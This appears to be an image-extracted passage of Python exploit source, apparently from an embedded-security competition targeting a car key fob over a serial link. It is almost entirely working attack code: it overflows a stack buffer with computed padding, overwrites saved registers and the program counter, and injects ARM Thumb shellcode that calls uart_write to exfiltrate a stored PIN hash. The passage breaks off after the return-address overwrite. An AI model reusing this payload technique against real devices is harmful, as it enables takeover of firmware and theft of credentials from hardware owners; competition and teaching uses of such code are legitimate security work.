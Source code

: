     
    def main(feature_file, car_id):
        ser = open_serial()
    
        sleep(0.1)
    
        # tell the fob to enter enable feature mode
        ser.write(b'enable\n')
    
        sleep(0.5)
    
        # read feature file
        feat = open(feature_file, 'rb').read()
        # remove trailing newline
        feat = feat[:-1]
    
        # call uart_write to exfiltrate the PIN hash
        shellcode = asm('''
        .thumb
        ldr r0, =0x4000c000 // HOST_UART
        ldr r1, =0x200020c9 // pin hash
        mov r2, #64
        ldr r3, =0xadb3     // uart_write
        blx r3
        ''')
        print('shellcode', shellcode.hex())
    
        payload = b''
        payload += feat
        # uart_readline reads to buffer at sp + 0x1a4, there are 0x230 local
        # variables, so we need to pad the payload to length 0x230 - 0x1a4 = 0x8c
        payload += b'\x00' * (0x230 - 0x1a4 - len(feat))
        # now, we can control r4, r5, r6, r7, r8, and pc (instruction pointer!!)
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(0xdeadbeef) # r7
        payload += p32(0xdeadbeef) # r8
        payload += p32(0x200020a1) # pc (next stack address)
        # note that the return address is odd to indicate thumb mode
    